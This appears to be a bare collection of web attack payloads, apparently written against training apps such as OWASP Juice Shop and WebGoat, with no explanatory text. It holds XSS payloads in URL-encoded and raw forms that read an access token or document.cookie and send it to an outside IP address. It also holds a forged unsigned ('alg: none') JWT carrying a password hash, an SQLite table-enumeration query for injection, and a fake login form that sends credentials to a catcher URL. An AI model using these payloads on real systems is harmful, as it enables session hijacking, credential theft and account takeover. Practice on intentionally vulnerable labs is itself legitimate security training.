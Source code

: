 var x = window.localStorage.getItem("adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e");var xhttp = new XMLHttpRequest();xhttp.open("GET", "http://104.40.75.104:8000/1ds8c7n1?token="+x, false);xhttp.send();

http://localhost:4200/bypass?name=%3Ciframe%20src%3Djavascript:alert(window.localStorage.getItem(%22adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e%22))%3E%3Cp%3ERafael%3C%2Fp%3E%3C%2Fiframe%3E

http://localhost:4200/bypass?name=<iframe src=javascript:var x = window.localStorage.getItem("adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e");alert(x);window.open("http://104.40.75.104:8000/1ds8c7n1%3Ftoken="+window.localStorage.getItem('adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e'))></iframe>

<iframe 
  
  src=javascript:var x = window.localStorage.getItem('adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e');
  var xhttp = new XMLHttpRequest();
  xhttp.open("GET", "http://104.40.75.104:8000/1ds8c7n1%3Ftoken="+x, false);
  xhttp.send();

</iframe>

http://localhost:4200/bypass?name=%3Ciframe%20src%3Djavascript:window.location.href%3D%27http:%2F%2F104.40.75.104:8000%2F1ds8c7n1%3Ftoken%3D%27%2Bwindow.localStorage.getItem(%22adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e%22)%3E%3C%2Fiframe%3E

<script>
  var xhttp = new XMLHttpRequest();
  xhttp.open("GET", "http://104.40.75.104:8000/1mvpm171?cookie="+document.cookie, false);
  xhttp.send();
</script>

http://localhost:3000/#/search?q=%3Cscript%3Evar%20xhttp%20%3D%20new%20XMLHttpRequest();xhttp.open(%22GET%22,%20%22http:%2F%2F104.40.75.104:8000%2F1mvpm171%3Fcookie%3D%22%2Bdocument.cookie,%20false);xhttp.send();%3C%2Fscript%3E

{
  "alg": "none",
  "typ": "JWT"
}

{
  "status": "success",
  "data": {
    "id": 1,
    "email": "bjoern.kimminich@googlemail.com",
    "password": "0192023a7bbd73250516f069df18b500",
    "createdAt": "2018-08-03 16:25:49.746 +00:00",
    "updatedAt": "2018-08-03 16:25:49.746 +00:00"
  },
  "iat": 1533614519,
  "exp": 1533632519
}

ewogICJhbGciOiAibm9uZSIsCiAgInR5cCI6ICJKV1QiCn0.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJiam9lcm4ua2ltbWluaWNoQGdvb2dsZW1haWwuY29tIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImNyZWF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCJ9LCJpYXQiOjE1MzQyMjUwNjMsImV4cCI6MTUzNDI0MzA2M30


eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJiam9lcm4ua2ltbWluaWNoQGdvb2dsZW1haWwuY29tIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImNyZWF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCJ9LCJpYXQiOjE1MzQyMjUwNjMsImV4cCI6MTUzNDI0MzA2M30

YmpvZXJuLmtpbW1pbmljaEBnb29nbGVtYWlsLmNvbQ==


SELECT name FROM (SELECT * FROM sqlite_master UNION ALL SELECT * FROM sqlite_temp_master) WHERE type='table' ORDER BY name

</form>
  <script>
    function hack(){ 
      XSSImage=new Image; 
      XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; 
  </script>
  
  <form name="phish">
  <br><br>
  <HR>
  <H3>This feature requires account login:</H3 >
  <br><br>Enter Username:<br>
  <input type="text" name="user">
  <br>Enter Password:<br>
  <input type="password" name = "pass">
  <br><input type="submit" name="login" value="login" onclick="hack()">
  </form>
  <br><br>
  <HR>
